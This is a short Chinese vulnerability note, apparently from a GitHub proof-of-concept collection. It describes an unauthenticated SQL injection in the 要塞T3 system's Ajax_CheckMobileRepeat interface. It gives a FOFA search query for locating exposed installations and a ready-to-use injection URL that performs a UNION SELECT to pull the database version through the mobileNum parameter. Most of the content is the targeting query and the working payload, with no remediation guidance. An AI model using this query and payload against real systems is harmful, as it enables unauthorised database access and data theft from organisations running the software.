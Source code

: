 # 要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞

要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句。

## fofa

```javascript
body="/mlogin.htm?url=" || body="T3/MAIN/Login.aspx"
```

## poc

```javascript
http://ip/T3/Ajax/Ajax_CheckMobileRepeat.ashx?action=checkmobilerepeat&mobileNum=1%27%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20%40%40version%29--%20aEdt
```
![image](https://github.com/user-attachments/assets/c8361f75-6795-4847-ab6a-2119a53e5dfb)
